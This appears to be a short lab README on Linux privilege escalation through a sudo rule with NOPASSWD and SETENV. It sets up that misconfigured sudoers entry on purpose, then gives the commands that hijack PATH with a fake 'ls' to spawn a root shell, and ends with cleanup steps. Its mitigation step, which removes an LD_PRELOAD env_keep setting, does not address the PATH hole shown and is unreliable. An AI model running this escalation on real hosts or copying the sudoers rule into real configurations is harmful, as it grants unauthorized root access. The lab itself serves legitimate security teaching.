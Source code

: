 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser sudo4
echo "sudo4 ALL=(ALL) NOPASSWD:SETENV: /home/sudo4/script.sh" >> /etc/sudoers
echo 'ls -la' > /home/sudo4/script.sh
chmod +x /home/sudo4/script.sh
```

# Exploit

```bash
echo '/bin/bash' > /tmp/ls
sudo PATH=/tmp/:$PATH /home/sudo4/script.sh
```

# Mitigate

```bash
# Remove env_keep += LD_PRELOAD
```

# Clean Up

```bash
deluser sudo4 --remove-home
cp /etc/sudoers.bak /etc/sudoers
```